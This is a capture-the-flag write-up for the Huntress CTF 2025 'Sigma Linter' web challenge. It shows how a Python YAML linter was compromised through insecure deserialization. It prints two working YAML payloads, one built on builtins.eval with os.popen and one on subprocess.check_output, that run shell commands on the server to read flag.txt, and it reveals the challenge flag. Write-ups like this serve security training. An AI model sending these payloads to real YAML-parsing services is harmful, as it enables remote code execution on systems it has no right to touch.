




# Huntress CTF 2025 - 🌐 Sigma Linter

**CTF Name:** Huntress CTF 2025  
**Challenge name:** 🌐 Sigma Linter  
**Challenge prompt:**  
> Oh wow, another web app interface for command-line tools that already exist!  
> This one seems a little busted, though...  

**Challenge category:** Web  
**Challenge points:** 10  

* * *  

## Steps to solve  

In this challenge, we were given access to the CTF's web-instance of the YAML linter online-tool:

  

Web responses revealed that this YAML linter is implemented in Python. With that knowledge I proceeded to look for Python Insecure Deserialization payloads and found `https://swisskyrepo.github.io/PayloadsAllTheThings/Insecure%20Deserialization/Python/#pickle`.

Based on the found information, I was able to execute several different Insecure Deserialization payloads, such as the ones below:






In the end, I was able to obtain the flag using one of the following:

```
!!python/object/apply:builtins.eval
- "(__import__('os').popen('cat flag.txt').read())"
```

or

```
!!python/object/new:subprocess.check_output [["cat","flag.txt"]]
```



**FLAG:** flag{b692115306c8e5c54a2c8908371a4c72}
